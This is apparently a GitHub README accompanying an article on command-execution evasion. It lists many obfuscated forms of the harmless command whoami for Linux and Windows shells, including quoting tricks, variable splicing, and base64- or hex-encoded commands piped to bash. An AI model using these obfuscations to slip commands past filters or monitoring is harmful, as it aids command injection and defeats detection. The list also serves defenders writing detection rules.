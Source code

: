 
# Code Exec Evasion

These are the examples from my [Article](https://medium.com/@m0r3h4x/multiple-ways-but-only-one-goal-a-look-into-code-execution-evasion-methods-546e241d399f) : 

# Linux : 
- ‘whoam’i

- w’h’oami

- wh’’oami

- w``h’’oa’m’i

- w’’h’’oa’’’’’’’’’m’i

- wh’’’’’’’’’’’’’’’’’’’’’’’’’’o’’’’’’’’ami

- who”ami

- wh”o”ami

- who””ami
- who\ami

- wh\o\ami

- w\h\o\a\m\i

- w\h\oa\mi
- wh\`echo`oami

- wh$(echo)oami
- wh$*oami

- wh$@oami

- wh$1oami

- wh$*o$*$*ami
- a=w;b=ho;c=ami;$a$b$c

- echo “d2hvYW1p”|base64 -d|bash

- \`echo’d2hvYW1p’|base64 -d`

- $(echo’d2hvYW1p’|base64 -d)

- echo 77686F616D69 | xxd -r -p |bash
- wh${PATH:2:1}${PATH:19:1}mi 
# Windows : 

- set a=who&&set b=ami && call %a%%b%
- w^hoami

- w^h^oami

- w^h^o^a^m^i
- who”ami

- wh”o”ami

- who””ami

## Authors

- [@morhax](https://www.github.com/morhax)

